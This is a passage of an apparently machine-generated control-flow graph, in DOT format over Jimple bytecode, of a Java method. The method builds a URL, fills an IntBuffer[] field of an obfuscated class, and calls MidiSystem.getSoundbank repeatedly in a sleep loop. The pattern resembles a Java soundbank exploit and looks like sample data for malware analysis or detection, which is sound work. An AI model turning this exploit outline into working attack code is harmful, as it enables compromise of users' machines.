    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r182"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r182";
    "load.r r182"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "new java.net.URL"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.net.URL";
    "new java.net.URL"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r699";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r699"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \"90UUUUU909U0U9UUU0\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \"90UUUUU909U0U9UUU0\"";
    "push \"90UUUUU909U0U9UUU0\""->"push \"U\"";
    "push \"U\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <Ifology: java.nio.IntBuffer[] __v(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <Ifology: java.nio.IntBuffer[] __v(java.lang.String,java.lang.String)>";
    "fieldput <Ifology: java.nio.IntBuffer[] mem>"
    "virtualinvoke <Ifology: java.nio.IntBuffer[] __v(java.lang.String,java.lang.String)>"->"fieldput <Ifology: java.nio.IntBuffer[] mem>";
    "fieldput <Ifology: java.nio.IntBuffer[] mem>"->"load.r r0";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "load.r r0"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "iflt return"->"return";
}
